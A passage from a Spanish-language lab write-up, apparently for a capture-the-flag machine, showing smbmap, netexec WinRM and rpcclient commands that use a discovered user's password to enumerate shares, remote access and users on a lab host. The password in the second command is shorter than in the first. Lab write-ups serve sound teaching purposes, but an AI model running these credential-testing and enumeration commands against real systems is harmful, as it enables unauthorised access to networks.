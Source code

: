Vemos que hay un usuario que no es Invitado: michael wrightson, por lo tanto podemos probar a ver si tienes mas privilegios sobre los recursos compartidos a nivel de red:

```
smbmap -H 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -r
```

![access](Imagenes/18.5.png)

También podemos ver si tiene permisos de conexión remota:

```
netexec winrm 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@L'
```

![access](Imagenes/19.png)

Podemos volver a intentar esta vez conectarnos con rpcclient y ver si podemos enumerar más usuarios y sus descripciones:

```
rpcclient -U 'michael.wrightson' 10.10.11.35
```
